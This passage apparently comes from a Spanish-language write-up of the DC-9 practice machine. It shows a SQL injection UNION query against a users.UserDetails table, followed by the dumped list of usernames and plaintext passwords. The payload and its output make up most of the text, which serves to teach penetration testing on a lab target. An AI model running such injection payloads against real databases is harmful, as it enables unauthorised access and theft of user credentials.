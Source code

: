 ![Untitled](DC-9%205a1a383f004f41a7b065312771f311ab/Untitled%204.png)

Obtengo las columnas id, firstname, lastname, username, password, y reg_date, por lo que solo queda listar el contenido de las columnas. con la siguiente consulta indico que se muestre los valores de las columnas username y password indicando la tabla que pertenece a la base de datos users.

```sql
Mary' union select  null,CONCAT(username, ":" ,password),null,null,null,null from users.UserDetails-- -
```

```bash
marym:3kfs86sfd
julied:468sfdfsd2
fredf:4sfd87sfd1
barneyr:RocksOff
tomc:TC&TheBoyz
jerrym:B8m#48sd
wilmaf:Pebbles
bettyr:BamBam01
chandlerb:UrAG0D!
joeyt:Passw0rd
rachelg:yN72#dsd
rossg:ILoveRachel
monicag:3248dsds7s
phoebeb:smellycats
scoots:YR3BVxxxw87
janitor:Ilovepeepee
janitor2:Hawaii-Five-0
```

